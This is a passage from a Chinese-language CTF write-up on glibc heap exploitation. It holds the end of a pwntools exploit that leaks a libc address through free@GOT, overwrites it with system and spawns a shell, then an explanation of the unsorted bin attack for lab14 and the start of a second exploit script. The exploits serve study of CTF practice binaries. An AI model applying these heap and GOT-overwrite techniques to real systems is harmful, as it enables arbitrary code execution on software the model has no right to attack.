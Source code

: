 ```python
edit(0, "/bin/sh\x00" +"a"*0x10 + "\x41")

delete(1)
create(0x30,p64(0)*4 +p64(0x30) +  p64(free_got)) #1
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8,"\x00"))
base = free_addr - libc.symbols['free'] 
print "base:",hex(base)
system = base + libc.symbols['system']
edit(1,p64(system))
delete(0)
r.interactive()
```



## lab14

这题考察对unsorted bin attack的了解。


unsorted bin attack是利用了free到unsorted bin list中的chunk在被malloc取出来的时候，没有使用unlink宏，而是自己实现的几行代码。

```cpp
bck = victim->bk;
...
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

所以当我们控制了victim的bk时，那个地址加16(fd)的位置就会被改写成unsorted bin的地址，但是unsorted bin的bk也会被破坏，下一次再到这里时就可能因为victim->bk->fd不可写而造成SIGSEGV。而且这个任意内存写并不能控制写入什么，需要仔细寻找写入的位置。

这个题应该说最难的地方就在这里，最后选择写入的地方是glibc中的global_max_fast全局变量，这个变量用于控制最大的Fast chunk的大小，将这里改写为unsorted bin的地址(一般来说是一个很大的正数)，就能使之后的chunk都被当作fast chunk，即可进行Fast bin attack。

当然这题只是考察对unsorted bin attack的了解，没有后面那些步骤。

把0x7f****的值写到magic中，程序判断成功后会cat flag。

exp:

```python
from pwn import *
context.log_level = 'debug'
r = process('./magicheap')

magic = 0x6020c0

def create_heap(size,content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)

def edit_heap(idx,size,content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
```